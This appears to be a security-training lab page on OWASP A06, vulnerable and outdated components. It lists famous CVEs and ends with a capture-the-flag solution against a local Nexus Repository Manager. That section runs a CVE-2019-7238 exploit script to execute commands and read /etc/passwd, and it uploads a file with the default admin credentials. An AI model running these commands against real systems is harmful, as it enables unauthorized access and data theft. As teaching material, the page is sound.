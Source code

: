 ```yaml
---
icon: diamonds-4
---
```


# A06 - Vulnerable and Outdated Components

This category highlights the risk associated with using vulnerable and outdated components. These components often run with the same privileges as the main application, increasing the potential impact if a vulnerability is exploited. The vulnerability may be unintentional or intentionally introduced by malicious actors.

#### Examples of Known Exploitable Component Vulnerabilities

* **CVE-2017-5638** (Apache Struts 2)
* **Heartbleed** (CVE-2014-0160)
* **Drupalgeddon** (CVE-2014-3704)
* **Shellshock** (CVE-2014-6271, CVE-2014-7169)
* **Log4j2** (CVE-2021-44228)

For a comprehensive list of current security advisories, consult the **French National Cybersecurity Agency's (CERT-FR)** alert and response center.

Attackers often leverage automated tools, such as **Shodan**, an IoT search engine, to scan for and locate misconfigured or outdated systems that are left vulnerable to attack.

**Real-World Example: Nexus Repository Manager**

For instance, a **Nexus Repository Manager** may have known vulnerabilities, like **CVE-2019-7238**. An attacker could exploit this CVE to gain unauthorized access to the system or retrieve sensitive information.

Another example is **Confluence** with multiple vulnerabilities. For a list of vulnerabilities associated with Confluence Server 6.10.2, see the CVE Details resource.

#### Additional Resources

* **CVE Details**: A comprehensive CVE database with detailed information on vulnerabilities.
* **End-of-Life Dates for Software**: Ensures awareness of critical updates and support timelines.

### Solution

In this scenario, we found that the **Nexus Server** is vulnerable to **CVE-2019-7238**. We can exploit this vulnerability using the following script:

```bash
python3 CVE-2019-7238.py http://localhost:8081/ whoami
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/passwd"
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/flag.txt"
```

After executing these commands, we successfully retrieve the flag.

If the initial approach does not succeed, try uploading a file using the following `curl` command:

```url
curl -v -u admin:admin123 --upload-file /tmp/pom.xml http://localhost:8081/repository/maven-releases/org/foo/1.0/foo-1.0.pom > /dev/null 2>&1
```

This command may bypass certain restrictions, allowing for file upload and further exploitation.
